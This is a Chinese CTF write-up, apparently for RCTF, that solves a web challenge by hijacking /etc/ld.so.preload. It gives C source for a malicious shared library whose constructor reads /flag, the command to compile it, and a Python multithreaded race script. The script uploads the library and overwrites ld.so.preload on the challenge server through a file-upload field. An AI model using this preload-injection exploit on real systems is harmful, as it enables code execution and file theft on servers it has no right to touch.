


# 知识点
/etc/ld.so.preload<br />文件竞争
# 思路
用strace追踪一下/bin/file的系统调用，发现访问了/etc/ld.so.preload<br /><br />通过写入/etc/ld.so.preload来动态加载链接库<br />读文件的模板
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

char *getfileall(char *fname)
{
    FILE *fp;
    char *str;
    char txt[1000];
    int filesize;
    //打开一个文件
    if ((fp=fopen(fname,"r"))==NULL){
        printf("打开文件%s错误\n",fname);
        return NULL;
    }
    //将文件指针移到末尾
    fseek(fp,0,SEEK_END);
    filesize = ftell(fp);//通过ftell函数获得指针到文件头的偏移字节数。
    
    str=(char *)malloc(filesize);//动态分配str内存
//    str=malloc(filesize);//动态分配str内存
    str[0]=0;//字符串置空
//    memset(str,filesize*sizeof(char),0);//清空数组,字符串置空第二种用法
    rewind(fp);
    
    while((fgets(txt,1000,fp))!=NULL){
        strcat(str,txt);
    }
    fclose(fp);
    return str;
}

__attribute__ ((__constructor__)) void exp (void){
    char *p;
    char *fname="/flag"; //文件名
    p=getfileall(fname);
    if (p!=NULL) puts(p);
}
```
gcc编译
```c
gcc -shared -fPIC test.c -o test.so
```
多线程条件竞争
```c
import io
import requests
import threading
def write(session):
    while True:
        resp = session.post( 'http://140.210.199.170:33002/', files={'file-upload': ('/tmp/test.so',open('test.so', 'rb'))})
        if "RCTF" in resp.text:
                print(resp.text)

def read(session):
    # while True:
        resp = session.post('http://140.210.199.170:33002/', files={'file-upload': ('/etc/ld.so.preload',open('ld.so.preload', 'rb'))})
        if "RCTF" in resp.text:
            print(resp.text)

if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write,args=(session,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()

```
获取flag<br />
